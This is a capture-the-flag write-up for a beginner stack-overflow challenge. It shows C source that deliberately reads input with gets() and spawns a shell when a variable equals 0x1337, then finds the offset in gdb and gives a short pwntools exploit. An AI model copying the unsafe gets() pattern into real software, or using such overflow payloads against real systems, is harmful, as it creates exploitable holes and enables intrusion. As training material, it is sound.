



# Intro 1

We are given the source code and the compiled binary.

main.c : 
```
#include <stdio.h>
#include <stdlib.h>


int main(){
    char buf[0x100];
    int overwrite_me;
    overwrite_me = 1234;
    puts("Welcome to PWN 101, smash my variable please.\n");
    gets(buf);
    if (overwrite_me == 0x1337){
        system("/bin/sh");
    }
    return 0;
}
```

checksec shows the following securities:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Okay so we have a 64 bit binary that is using "gets" to read input from the user.

Gets allows us to overflow the buffer, and in this case we want to overwrite "overwrite_me" with 0x1337. As they will run "/bin/sh" and give us a shell on the remote server.


Straight forward enough. Just have to find out the offset.

To do this I ran gdb on the file and sent a cyclic pattern of 300 to overflow the buffer.



We can see the above output from gdb when we send our pattern 

RBP has been loaded with "saac"

Running "cyclic -l saac" we know the offset the amount of data needed before we overwrite RBP is 272



If I disassemble main inside GDB as shown above you can see the CMP function which is checking if the "overwrite_me" variable is is equal to 0x1337. It also shows is that is at 'rbp-0x4'

272 - 4 = 268

So our payload will be 

268 junk data + 0x1337

This can be done a number of ways but to keep it simple for this writeup ive done it with pwntools

our payload will look like this:

```
OFFSET = 268
payload = b'A' * OFFSET
payload += p64(0x1337)

io.sendline(payload)

io.interactive()
```

Running this on the remote server we get the flag:


